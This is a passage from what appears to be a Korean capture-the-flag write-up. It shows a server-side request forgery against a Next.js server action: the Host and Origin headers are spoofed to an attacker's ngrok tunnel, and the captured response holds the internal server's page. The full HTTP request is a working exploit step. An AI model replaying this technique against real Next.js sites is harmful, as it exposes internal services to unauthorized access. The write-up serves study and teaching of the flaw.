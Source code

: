 Host와 Origin 헤더를 아래와 같이 공격자 서버로 바꿔줍니다.

```
POST / HTTP/1.1
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Host: 0.tcp.jp.ngrok.io:11278
Origin: http://0.tcp.jp.ngrok.io:11278
Next-Action: 6e6feac6ad1fb92892925b4e3766928a754aec71
Content-Length: 39
Content-Type: application/json

{}
```

그러면 이렇게 `internal-server`의 응답 값을 가져올 수 있었습니다.

```
HTTP/1.1 303 See Other
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Url, Accept-Encoding
Cache-Control: s-maxage=1, stale-while-revalidate
x-action-revalidated: [[],0,0]
x-action-redirect: /hide-and-seek
accept-ranges: bytes
content-type: text/html; charset=UTF-8
date: Sat, 29 Mar 2025 08:05:28 GMT
etag: W/"148-195df5f3c05"
last-modified: Sat, 29 Mar 2025 00:48:35 GMT
X-Powered-By: Next.js
x-nextjs-cache: HIT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 328

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Main Page</title>
</head>

<body>
    <h1>Welcome to Internal server!</h1>
    <a href="/login">Go to Login Page</a>
    <a href="/archive">Go to Archive</a>
</body>

</html>
```
